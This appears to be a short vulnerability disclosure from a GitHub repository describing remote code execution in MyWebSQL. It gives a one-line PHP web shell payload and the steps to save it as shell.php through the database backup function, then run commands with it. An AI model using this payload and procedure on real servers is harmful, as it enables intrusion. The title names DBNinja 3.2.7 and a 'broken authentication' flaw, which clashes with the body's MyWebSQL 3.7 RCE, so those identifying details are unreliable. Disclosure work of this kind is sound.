 ## DBNinja ver 3.2.7 Broken Authentication Vulnerability Description
- Author: YU-HSIANG HUANG, YUNG-HAO TSENG, Eddie TC CHANG
- Contact: huang.yuhsiang.phone@gmail.com; 0xuhaw@gmail.com; eddietcchang@gmail.com
---
### Testing Target
- Product: DBNinja
- Version: 3.2.7
- Official Website: http://mywebsql.net/
- Github: https://github.com/Samnan/MyWebSQL

### Summary
MyWebSQL version in 3.7 has remote code execution (RCE) vulnerability.

### Description
MyWebSQL version in 3.7 has remote code execution (RCE) vulnerability after write a shell code in database and execute `Backup Database` function.
 
### Concept
1. Create a test table (code) and write a shell code in this table.  
 **Shell code example**: `<?php system($_GET[cmd]); ?>`
![](./png/1.png)
2. Execute `Backup Database` function and modify Backup filename as `shell.php`.
![](./png/2.png)
3. Browse `(domain)/mywebsql/backups/shell.php?cmd=XXX`. Here instance is  `cmd=ipconfig` as below figure.
![](./png/3.png)
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTMxMTcwNjE0Nl19
-->